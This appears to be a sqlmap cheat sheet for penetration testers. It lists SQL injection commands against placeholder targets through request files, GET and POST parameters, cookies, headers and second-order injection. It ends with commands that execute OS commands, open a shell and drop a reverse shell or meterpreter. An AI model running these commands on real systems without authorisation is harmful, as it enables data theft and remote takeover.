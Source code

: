 Capture the request and create a req.txt file

```bash
sqlmap -r req.txt --current-user
```

## GET Request Injection

```bash
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```

## POST Request Injection

```bash
sqlmap -u "http://example.com" --data "username=*&password=*"
```

## Injections in Headers and other HTTP Methods

```bash
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```

## Second order injection

```bash
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

## Shell

```bash
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```
